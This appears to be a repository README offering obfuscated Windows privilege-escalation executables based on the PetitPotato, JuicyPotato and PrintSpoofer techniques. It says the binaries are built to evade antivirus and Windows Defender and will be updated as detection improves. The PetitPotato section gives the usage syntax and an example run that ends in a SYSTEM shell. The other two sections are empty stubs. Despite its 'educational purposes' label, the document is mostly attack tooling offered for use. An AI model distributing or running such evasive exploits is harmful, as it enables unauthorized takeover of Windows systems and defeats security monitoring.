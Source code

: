 # Privilege Escalation for Windows

This project is for educational purposes only, focusing on understanding and demonstrating the use of CVEs related to privilege escalation in Windows. 
These executables are obfuscated versions, designed to evade detection by most AV and Windows Defender. Updates to these files will be made as necessary, in response to changes in detection capabilities of AV, or to improve the educational value of the project. 


## [1] PE via PetitPotato (Abusing impersonate privileges).
## Usage

```
PetitPotato.exe [EfsID] [Command]
```

`EfsID`: MS-EFSR API number to use

`Command`: command to execute


## Example
```
C:\Users\Administrator\Desktop>PetitPotato.exe 3 cmd

[+] Malicious named pipe running on \\.\pipe\petit\pipe\srvsvc.
[+] Invoking EfsRpcQueryUsersOnFile with target path: \\localhost/pipe/petit\C$\wh0nqs.txt.
[+] The connection is successful.
[+] ImpersonateNamedPipeClient OK.
[+] OpenThreadToken OK.
[+] DuplicateTokenEx OK.
[+] CreateProcessAsUser OK.
Microsoft Windows [Version 10.0.20348.1547]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```


## [2] PE via JuicyPotat ().
## Usage

```
JuicyPotat.exe
```


## Example
```

```

## [3] PE via PrintSpoofer ().
## Usage

```
PrintSpoofer.exe
```


## Example
```

```
